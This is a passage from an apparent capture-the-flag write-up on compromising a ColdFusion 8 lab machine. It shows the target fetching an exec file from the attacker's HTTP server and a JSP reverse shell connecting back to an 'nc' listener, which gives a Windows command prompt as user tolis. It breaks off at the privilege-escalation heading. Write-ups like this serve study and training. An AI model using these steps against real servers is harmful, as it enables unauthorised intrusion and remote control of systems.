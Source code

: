 There's contact at my webserver:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.11 - - [13/May/2020 08:46:34] "GET /cfexec.cfm HTTP/1.1" 200 -



Now if I refresh `http://10.10.10.11:8500/CFIDE/`, I see the shell:

![](/img/image-20200513090504605.png)

#### Execute Shell

Clicking on the `.jsp` returns a shell at my `nc` listener:



    root@kali# rlwrap nc -nvlp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.11.
    Ncat: Connection from 10.10.10.11:49774.
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\ColdFusion8\runtime\bin>whoami
    arctic\tolis



I could get `user.txt` here as well.

## Priv: tolis --\> system

### Enumeration
